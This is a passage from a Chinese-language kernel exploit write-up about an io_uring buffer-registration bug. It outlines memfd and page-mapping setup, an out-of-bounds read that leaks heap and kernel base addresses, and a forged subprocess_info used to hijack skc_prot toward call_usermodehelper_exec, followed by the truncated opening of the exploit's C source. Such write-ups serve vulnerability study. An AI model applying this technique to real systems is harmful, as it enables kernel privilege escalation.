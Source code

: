   
〔4〕 打开nr_memfds  
个匿名共享文件（memfd_create()  
），分配物理页（fallocate()  
），这一步为文件分配**物理地址**  
。  
这里的物理地址不是顺序的，这一步很重要。  
  
  
〔5〕 接着为文件映射**虚拟内存**，在固定地址处映射 65000 个连续的虚拟页（绑定该匿名文件），但是对应的物理页只有1个；并向io_uring注册该缓冲区。  
  
  
〔6〕 越界读，定位到sock位置，泄露堆地址，内核基地址，然后伪造subprocess_info篡改sock.__sk_common.skc_prot为CALL_USERMODEHELPER_EXEC。  
  
  
![image-20250307130322580](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCLoFg5pumOLKyMRkyFLtoT1vruV2PYdsKI6DbyLrE1JdlCxXrzEuPDg/640?wx_fmt=png&from=appmsg "")  
  
  
```
#define _GNU_SOURCE 
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <liburing.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <mqueue.h>

#include <sys/syscall.h>
#include <sys/resource.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/tcp.h>

#pragma pack(16)

#define __int64 long long
#define CLOSE printf("\033[0m\n");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char
#define COLOR_GREEN "\033[32m"
#define COLOR_RED "\033[31m"
#define COLOR_YELLOW "\033[33m"
#define COLOR_BLUE "\033[34m"
#define COLOR_DEFAULT "\033[0m"
#define showAddr(var)  dprintf(2, COLOR_GREEN "[*] %s -> %p\n" COLOR_DEFAULT, #var, var); 
#define logu(fmt, ...) dprintf(2,  "[*]  " fmt "\n" , ##__VA_ARGS__)
#define logd(fmt, ...) dprintf(2, COLOR_BLUE "[*] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logi(fmt, ...) dprintf(2, COLOR_GREEN "[+] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logw(fmt, ...) dprintf(2, COLOR_YELLOW "[!] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define loge(fmt, ...) dprintf(2, COLOR_RED "[-] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define die(fmt, ...)                      \
    do {                                   \
```